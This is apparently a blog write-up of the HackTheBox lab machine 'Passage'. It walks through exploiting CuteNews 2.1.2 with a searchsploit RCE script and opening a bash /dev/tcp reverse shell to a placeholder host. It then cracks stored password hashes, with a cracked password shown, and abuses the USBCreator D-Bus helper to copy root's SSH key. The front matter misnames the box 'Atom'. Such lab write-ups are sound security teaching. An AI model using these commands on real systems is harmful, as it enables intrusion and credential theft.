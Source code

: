 ```yaml
---
title: HackTheBox - Passage Writeup
subtitle: Here's my writeup for the RETIRED machine Atom, Which is a Medium Linux machine!
summary: Here's my writeup for the RETIRED machine Atom, Which is a Medium Linux machine!
date: '2021-03-06'
draft: false
authors: ['elleuch']
categories: ['HackTheBox', 'Medium']
tags: ['HackThebox', 'Medium','Linux']
image: /assets/img/htb-passage/featured.png
render_with_liquid: false
---
```


# Information Gathering

## Nmap scan 
`rustscan -a 10.10.10.206 -- -A -sC -sV`

```
Open 10.10.10.206:22
Open 10.10.10.206:80
```

```
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)

| ssh-hostkey: 
|   2048 17:eb:9e:23:ea:23:b6:b1:bc:c6:4f:db:98:d3:d4:a1 (RSA)
|   256 71:64:51:50:c3:7f:18:47:03:98:3e:5e:b8:10:19:fc (ECDSA)
|   256 fd:56:2a:f8:d0:60:a7:f1:a0:a1:47:a4:38:d6:a8:a1 (ED25519)

80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Passage News

```

<p> We have two ports open 
	Port 22 : OpenSSH 7.2p2
	Port 80 : Apache httpd 2.4.18
</p>

## Exploring the WebServer

Let's first add Passage.htb to our hosts file!


We can see that Fail2Ban is Implemented on the server! So no need to waste our time trying bruteforcing dirs and files

<img src="/assets/img/htb-passage/fail2ban.png"> 

What really catchs my eye is 

`Powered by CuteNews`

A simple search on google can reveal the default dir for CuteNews CMS which is /CuteNews/

Let's see what we get!
<img src="/assets/img/htb-passage/cuteCMS.png">
Nice! We got the CMS version 

`Powered by CuteNews 2.1.2`

Let's find a vulnerability related to this version!

# Initial Foothold


Let's see what searchsploit has for us!

<img src="/assets/img/htb-passage/Searchsploit.png">

Let's grab that juicy RCE python exploit

```
searchsploit -m php/webapps/48800.py
```


And run our script, We only need to provide <b>	http://passage.htb</b>

```
python3 48800.py
```
<img src="/assets/img/htb-passage/foothold.png">

And we're on the box!

Let's get a proper shell on the box!

`/bin/bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'`

<img src="/assets/img/htb-passage/pwncat.png">

# User Privesc

## Paul user 


Going through the webserver config, I found an interesting directory

`/var/www/html/CuteNews/cdata/users`

Which seem to contain some juicy encoded informations

<img src="/assets/img/htb-passage/encoded.png">

It looks like it's Base64 encoded!
Let's decode it

```
a:1:{s:4:"name";a:1:{s:5:"admin";a:8:{s:2:"id";s:10:"1592483047";s:4:"name";s:5:"admin";s:3:"acl";s:1:"1";s:5:"email";s:17:"nadav@passage.htb";s:4:"pass";s:64:"7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1";s:3:"lts";s:10:"1592487988";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
```

```
a:1:{s:4:"name";a:1:{s:10:"paul-coles";a:9:{s:2:"id";s:10:"1592483236";s:4:"name";s:10:"paul-coles";s:3:"acl";s:1:"2";s:5:"email";s:16:"paul@passage.htb";s:4:"nick";s:10:"Paul Coles";s:4:"pass";s:64:"e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd";s:3:"lts";s:10:"1592485556";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
```

Seems like we got nadav and paul's hash password

It's a sha2-256 hash, we're gonna use Hashcat with the rockyou wordlist to crack them!

```
echo "7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1" > hash 
echo "e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd" > hash
```

```
hashcat -m 1400 hash /opt/rockyou.txt
```

Seems like we were only able to crack paul's hash!

<img src="/assets/img/htb-passage/cracked.png">

`paul:atlanta1`

And grab our user flag


## Nadav user

We can notice that nadav can access paul's session

<img src="/assets/img/htb-passage/ssh.png">

Let's see if paul's can access nadav's session

```
ssh nadav@passage
```

<img src="/assets/img/htb-passage/nadav.png">

It worked!

# Root Privesc

Let's first run 
```
ps -aux
```
To see the current running processes!
<img src="/assets/img/htb-passage/usb.png">
What really catches me is that root is running, and that's odd
```
/usr/bin/python3 /usr/share/usb-creator/usb-creator-helper
```
A bit a searching/reading from google can lead us to something, which is the ability to get any file we want!


```
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /dev/shm/id_rsa true
```
<img src="/assets/img/htb-passage/root1.png">

And we rooted the box! 
